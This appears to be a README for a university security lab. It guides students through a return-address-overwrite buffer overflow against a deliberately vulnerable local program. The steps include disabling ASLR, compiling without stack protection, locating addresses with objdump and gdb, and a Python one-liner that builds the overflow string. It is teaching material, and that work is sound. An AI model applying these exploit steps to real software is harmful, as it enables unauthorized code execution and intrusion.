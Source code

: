 Source code from https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/

Modifications made for a 64-bit system, because that's probably what you have. Addresses should all be valid for the Kali VirtualBox we had you install. 

*******

## Background
Here's a decently detailed Computerphile video about buffer overflow attacks. Our exploit is a good bit simpler than the one he's doing in this video--the only thing that we care about is overwriting the return address so that it points to a different function in the program. The video goes over nop sleds and how to inject your own code, which is beyond the scope of this exercise in particular, but if you'd like to take this exercise further and figure out how to run an exploit of that sort, you're definitely welcome to. https://www.youtube.com/watch?v=1S0aBV-Waeo

*******

## Running the exploit

Run `sudo sysctl kernel.randomize_va_space=0` in your terminal, which will temporarily turn stack randomization off for just this session. 

Open the `vuln.c` file. What does it do? How would you get to the secret function? 

Run the command `gcc vuln.c -o vuln -fno-stack-protector -g`. This compiles the `vuln.c` program into an executable `vuln` program. `-fno-stack-protector` turns off all the things that a good compiler should do to prevent you from doing this exploit. `-g` allows you to open the executable in a debugger. (Since a Makefile is provided, you can also just run `make` since that's shorter to type, but this is the command that's actually getting run.) 

(If you want to run the Computerphile attack where you actually execute code you're injecting onto the stack, you'll need to add `-z execstack` to your gcc command, which means that you're allowed to execute code on the stack. This flag isn't necessary for the basic attack, since you're only changing the return address.)

Try out the program. Run `./vuln` and give it some text so you can see how the program's expected to work. 

Run `objdump -d vuln > myVulnDump`, which allows you to look through the machine instructions for the executable. Note that you can get this objdump without the original C source file. You can now open myVulnDump with `nano` or some other text editor. 

(For some reason, objdump lists addresses that aren't exactly the same as the ones in gdb--in Kali, it seems you need to add 0x5555555554000 to your addresses to get the actual address. Not sure why this is.) 
<br>
<details>
  <summary>It's not working!</summary>
  If you really can't get the objdump to work, I've provided it as `dumpfile`.
</details>
<br>
In the dumpfile, locate the address in main where the echo function should return to when it's finished. This is the address that will get pushed to the stack, and then the program will expect it to be there later. Except we're going to overwrite it to a different address. 
<br>
<details> 
  <summary>The return address should be... </summary>
  Listed as 11c9 in the dumpfile, which means it's actually 0x55555555551c9.
</details>
<br>
Also in the dumpfile, locate the address of the secret function. This is what we'll be overwriting the last address with. 
<br>
<details> 
  <summary>The address of secretFunction should be... </summary>
  Listed as 1155 in the dumpfile, which means it's actually 0x5555555555155. 
</details>
<br>
Construct a hex string that will overflow the buffer with a set number of random characters followed by the return address of the secret function. I used Python: <code>python -c 'print "a"*40 + "\x55\x51\x55\x55\x55\x55"' > myBadString </code> (If you discovered that yours has a different return address, use that one instead.) If you're curious, you can use hexdump to figure out what got put into the myBadString file: <code>hexdump myBadString</code>

To investigate this exploit, open the executable program in `gdb`, the debugger, by running `gdb vuln`. Pull up your dumpfile in parallel and add breakpoints in echo before and after you copy your string to the buffer--try adding a breakpoint at the beginning end of the function. Say `b echo` and `b *0x55555555517c`; the first puts a breakpoint in echo and the second puts a breakpoint at the end of echo. 

You can run the program now with the command `r < myBadString`. It'll hit the first breakpoint and stop. At this point, print out the memory at the top of the stack with `x/30x $rsp`. Look for the return address in main that you discovered before. This is the memory address you want to overwrite with your new address. Hit `c` to continue on to the next breakpoint. 

At this point, print out the stack again with `x/30x $rsp`. Where did the address at the end of your string get put? How can you adjust the number of `a`s at the beginning of your string so that the address lands perfectly on top of where the last address is?  

Now you can exit gdb and run the `vuln` program with the string you put into `myBadString`: `./vuln < myBadString`. 

And that's it! 

![I'm in.](in.gif)
https://media.giphy.com/media/xUOxf0mVWDzAX9HkOY/giphy.gif
